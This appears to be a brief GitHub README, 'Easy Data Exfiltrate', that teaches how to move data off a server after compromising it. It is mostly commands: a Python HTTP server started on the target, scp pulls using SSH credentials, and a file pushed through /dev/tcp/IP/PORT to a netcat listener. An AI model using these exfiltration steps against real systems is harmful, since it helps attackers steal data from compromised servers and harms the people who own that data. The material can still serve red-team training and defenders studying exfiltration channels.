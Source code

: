 # Easy Data Exfiltrate

This repository contains the techniques for data exfiltration after compromising a server. 

## Using Python Server
The easiest method will be to start a Python HTTP Server on the target server, and downloading
the required data in personal system through web browser. 

In Python 3.x the following command can be used to start a python server:

```bash
python3 -m http.server 8000
```

In Python 2.x the following command can be used to start a python server. 

```bash
python -m SimpleHTTPServer 8000
```

But mostly, you will not find python installed on the compromised system, so you can try the next technique. 

## Through SSH

If the SSH port is open and you have the SSH credentials, then the data can be transferred through ssh easily using the technique given below:

Run This command on your own system

```bash
scp user@ServerIP:/home/location/of/the/data.zip Location/on/MySystem.zip
```
> [!NOTE]
> This will ask for the SSH Password if you are not in the authorized_keys.


The above command will simply copy the file/data from remote server just like the `cp` command copies files in your own system. 


### Through TCP connection


```bash
cat file.zip > /dev/tcp/IP/PORT
```

This will send the contents of a file file.zip over a TCP connection to a remote host IP on a specific PORT. We can recieve the file with netcat with the following command. 

```bash
nc -lvnp PORT > file.zip
```





